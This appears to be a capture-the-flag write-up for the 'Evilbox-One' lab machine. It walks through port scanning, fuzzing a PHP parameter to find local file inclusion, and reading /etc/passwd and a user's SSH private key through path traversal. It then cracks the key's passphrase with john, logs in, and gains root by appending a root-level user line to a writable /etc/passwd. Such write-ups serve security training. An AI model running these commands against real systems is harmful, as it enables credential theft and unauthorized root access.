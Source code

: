 ```yaml
---
layout: default
title: Evilbox-One
parent: Proving Grounds Play
nav_order: 15
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 12:34 EST
Nmap scan report for 192.168.160.212
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.75 seconds

```

# Enumeration

---

## 80 | HTTP

Run Gobuster and discover _/secret_ directory.

Run Gobuster again on _/secret_ directory and discover _evil.php_.

This is an empty file.

Run WFUZZ against _/secret/evil.php_ to search for a keyword that will allow LFI exploit.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sunsetmidnight]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.160.212/secret/evil.php?FUZZ=../../../../../../../etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.212/secret/evil.php?FUZZ=../../../../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000001218:   200        26 L     38 W       1398 Ch     "command"

Total time: 0
Processed Requests: 1710
Filtered Requests: 1709
Requests/sec.: 0
```

We try the _command_ keyword and trigger LFI by displaying _/etc/passwd_

![lfi](../../../assets/images/ctfs/proving_grounds/evilbox-one/lfi.png)

# Exploitation

---

We have a user _mowree_ and can enumerate the private RSA ssh key from their home directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ curl http://192.168.160.212/secret/evil.php?command=../../../../../../../home/mowree/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```

Add the RSA private key to an _id_rsa_ file, change the permissions, and then use to SSH to the target as _mowree_

We are unable to, however, because the system wants a passphrase

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ ssh -i id_rsa mowree@192.168.160.212
The authenticity of host '192.168.160.212 (192.168.160.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.160.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':

```

We need to use _ssh2john_ to crack the passphrase.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ ssh2john id_rsa > crackme

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt crackme
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)
1g 0:00:00:00 DONE (2023-11-09 13:36) 50.00g/s 62400p/s 62400c/s 62400C/s franklin..shirley
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


```

We have cracked the passphrase unicorn
{: .warn}

We get the passphrase _unicorn_ and can SSH as mowree.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/evilbox-one]
└─$ ssh -i id_rsa mowree@192.168.160.212
Enter passphrase for key 'id_rsa':
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ id
uid=1000(mowree) gid=1000(mowree) grupos=1000(mowree),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

```

# Post-Exploitation

---

_/etc/passwd_ is writable and we can add a new user.

The following will add a root user with the password _i<3hacking_

```bash
echo 'kamino:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash' >> /etc/passwd

mowree@EvilBoxOne:~$ echo 'kamino:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash' >> /etc/passwd

mowree@EvilBoxOne:~$ su kamino
Contraseña:
root@EvilBoxOne:/home/mowree# id
uid=0(root) gid=0(root) grupos=0(root)

```
